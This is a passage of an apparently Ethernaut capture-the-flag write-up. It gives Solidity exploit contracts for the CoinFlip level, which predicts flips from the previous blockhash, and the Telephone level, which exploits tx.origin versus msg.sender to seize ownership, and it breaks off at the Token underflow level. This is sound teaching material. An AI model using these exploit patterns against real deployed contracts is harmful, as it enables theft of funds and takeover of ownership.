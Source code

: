```

    function guessCoinFlip() external {
        uint blockValue = uint(blockhash(block.number - 1));
        uint coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        bool result = CoinFlip(coinflip).flip(side);
        emit Flip(result); // Event to quickly confirm the result
    }
}
```

And then we can call `guessCoinFlip` 10 times for 10 consecutive wins (I used the remix IDE for this).

And that clears the level!

**Note** this challenge was created before the `constructor` keyword was introduced to avoid these
mistakes.

# Telephone
This level teaches us the difference between `tx.origin` and `msg.sender`.
The transaction origin is **always** the EOA that signs and broadcasts the
transaction. The message sender is _usually_ the account, be it EOA or contract,
that is the most recent caller of the execution environment (delegate calls are
an exception to this definition but you'll learn that in a future challenge).

We can write a an exploit contract to call `changeOwner`. The contract's address
will be `msg.sender` and your EOA will be `tx.origin`.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneExploit {
    address private telephone;
    constructor(address _telephone) public {
        telephone = _telephone;
    }

    function exploit(address owner) external {
        Telephone(telephone).changeOwner(owner);
    }
}
```

And that clears the level!

# Token
In Solidity version `0.6.0` math is not safe by default. This means the `Token` contract is vulnerable to
an underflow exploit on this line:

